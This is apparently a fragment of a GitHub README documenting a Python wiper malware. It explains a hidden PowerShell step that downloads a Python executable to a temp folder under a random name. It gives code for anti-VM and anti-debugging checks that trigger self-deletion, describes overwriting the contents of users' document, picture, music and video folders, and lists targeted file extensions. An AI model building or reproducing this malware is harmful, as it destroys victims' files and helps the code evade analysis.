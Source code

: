 ```python
    pip_list = RunPwsh("pip list")
    if 'psutil' in pip_list.lower():
        wait4 = os.system('msg %username% in!')
    subprocess.run("msg %username% finished")
    return True
```

  
The Powershell part  

WindowStyle Hidden: will hide the window.  
ExecutionPolicy: Bypass should already do the run as admin part  
iwr -Uri Invoke-WebRequest: It parses the response and returns collections of links, {url}: will automatically download no need for user interaction -OutFile output python exe to temp directory under a random name using `{rand_py}`

## _Anti-analysis-techniques
`AntiVm` the following Function will search for VM Processes, the Malware will self delete anytime detect a VM the code can’t detect hardware based VM’s (like Hyper-V that accelerates in hardware e.g github workflow VPS)_  

```python
def AntiVm():
      Process = ["vmsrvc.exe" , "vmusrvc.exe", "vboxtray.exe", "vmtoolsd.exe", "df5serv.exe", "vboxservice.exe"]
      for process in psutil.process_iter():
         for i in Process:
            if i in process.name().lower():
                return CommitSuicide()
```
  
## AntiDebug  
`isDebuggerPresent` function this is the most simplest anti-debugging technique From the MSDN’s documentation, we can see that it is a winapi function that take in no argument and return a non-zero if it detects a debugger (TRUE) or a zero which means it does not detect any debugger (FALSE) if the program retune (TRUE) the program will delete it itself.
  
```python
def AntiDebug():
    isDebuggerPresent = windll.kernel32.IsDebuggerPresent()
    if (isDebuggerPresent):
        return CommitSuicide()
        return False
```

### Stage 1 - Destroy files content​
- the wiper start by looking for folders that contained important files, like documents, downloads, pictures, music, and videos: more or less everything that a user might value. After the code found these folders, the wiping code overwrote their contents.

### File Extension target list​
```sh
".m2ts", ".mkv", ".mov", ".mp4", ".mpg", ".mpeg",".jpg", ".jpeg", ".png", ".tiff", ".zip", ".7z",
".tar.gz", ".tar", ".mp3", ".sh", ".c", ".cpp", ".h", ".gif", ".txt", ".jar", ".sql", ".bundle",   
".sqlite3", ".html", ".php", ".log", ".bak", ".deb"
```
  